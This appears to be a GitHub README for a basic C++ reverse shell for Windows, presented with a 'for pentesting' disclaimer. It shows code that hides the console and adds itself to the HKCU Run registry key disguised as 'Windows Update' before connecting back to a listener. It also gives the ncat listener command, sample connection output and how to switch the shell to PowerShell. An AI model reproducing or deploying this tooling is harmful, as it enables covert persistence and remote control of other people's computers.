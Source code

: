 # reverse-shell
a basic reverse shell for windows operating systems in c++

# This is not malware this is for pentesting!!!
Here is the initialize shell code
```cpp
    FreeConsole();

    HKEY hkey = NULL;
    LONG createStatus = RegCreateKey(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &hkey);     
    LONG status = RegSetValueEx(hkey, "Windows Update", 0, REG_SZ, (BYTE*)argv[0], (std::string(argv[0]).size() + 1) * sizeof(wchar_t));

    char host[] = "localhost";
    int port = 0xDEAD;
    RunShell(host, port);
```

# Access
You can access the shell by opening a port and hosting a ncat server
```cpp
nc -lvp 57005
```
Then it should say
```yml
Ncat: Connection from 46.165.252.184
```
Then press enter and you got a shell

# Features
Infect Windows Startup with registry
Reverse Shell via raw sockets
If you want to pop something else than cmd you change this line
```cpp
char Process[8] = "cmd.exe";
```

to for example powershell
```cpp
char Process[15] = "powershell.exe";
```

